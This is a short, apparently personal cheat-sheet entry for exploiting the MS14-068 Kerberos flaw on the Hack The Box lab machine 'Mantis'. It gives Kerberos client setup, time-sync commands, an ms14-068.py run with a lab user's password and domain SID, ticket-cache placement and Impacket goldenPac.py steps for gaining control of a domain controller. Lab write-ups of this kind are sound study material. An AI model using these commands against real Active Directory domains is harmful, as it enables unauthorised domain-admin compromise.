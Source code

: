 Exploits:
- [Python Kerberos Exploitation Kit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek)
- [The Mystery of Duqu 2.0: a sophisticated cyberespionage actor returns](https://securelist.com/the-mystery-of-duqu-2-0-a-sophisticated-cyberespionage-actor-returns/70504/)

```
apt-get install krb5-user cifs-utils rdate
# Add proper nameservers in /etc/hosts
```
```
/etc/krb5.conf

    [libdefaults]
        default_realm = HTB.LOCAL

        # The following krb5.conf variables are only for MIT Kerberos.
      	kdc_timesync = 1
      	ccache_type = 4
      	forwardable = true
      	proxiable = true

    #Edit the realms entry as follows:
    [realms]
        LAB.LOCAL = {
            kdc = mantis.htb.local:88
            admin_server = mantis.htb.local
            default_domain = HTB.LOCAL
        }

    #Also edit the final section:
    [domain_realm]
        .domain.internal = HTB.LOCAL
        domain.internal = HTB.LOCAL
```
```
net time -S 10.10.10.52 -U ""
# Set local time accordingly
# OR USE
rdate -n 10.10.10.52
```
```
python ms14-068.py -u james@htb.local -d mantis.htb.local
-p J@m3s_P@ssW0rd! -s S-1-5-21-4220043660-4019079961-2895681657
```

Rename the generated ticket to ​`/tmp/krb5cc_0​`
```
mv TGT_James@HTB.local.ccache /tmp/krb5cc_0
```

With Impacket (Golden PAC module):
- `kinit james`  (options ?)
- `klist` (options ?)
- `python goldenPac.py htb.local/james@mantis.htb.local`​
- Entering the password for the ​ `james` ​ user
